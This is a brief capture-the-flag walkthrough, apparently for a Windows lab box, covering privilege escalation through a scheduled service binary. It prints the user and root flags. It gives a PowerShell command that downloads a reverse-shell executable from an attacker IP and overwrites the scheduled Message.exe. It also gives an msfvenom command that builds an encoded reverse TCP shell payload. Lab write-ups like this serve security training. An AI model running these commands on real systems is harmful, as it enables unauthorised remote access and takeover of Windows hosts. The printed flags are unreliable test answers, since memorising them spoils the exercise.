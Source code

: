 # What is the name of the binary you're supposed to exploit?
Message.exe
```
mv Message.exe Message.bat

# in a shell on the target machine
powershell -c "Invoke-WebRequest -Uri 'http://10.8.240.61:8000/revshell.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\Message.exe'"

#wait for it to run, should get a new meterpreter shell session as Administrator when it runs

```

# What is the user flag (on Jeffs Desktop)?

```
C:\Users\jeff\Desktop>type user.txt
type user.txt
759bd8af507517bcfaede78a21a73e39
```

# What is the root flag?

```
C:\Users\Administrator>type Desktop\root.txt
type Desktop\root.txt
7e13d97f05f7ceb9881a3eb3d78d3e72
```


# task 5 - Privilege Escalation Without Metasploit


- generate revshell.exe

```
msfvenom -p windows/shell_reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.240.61 LPORT=8989 -f exe -o revshell.exe
```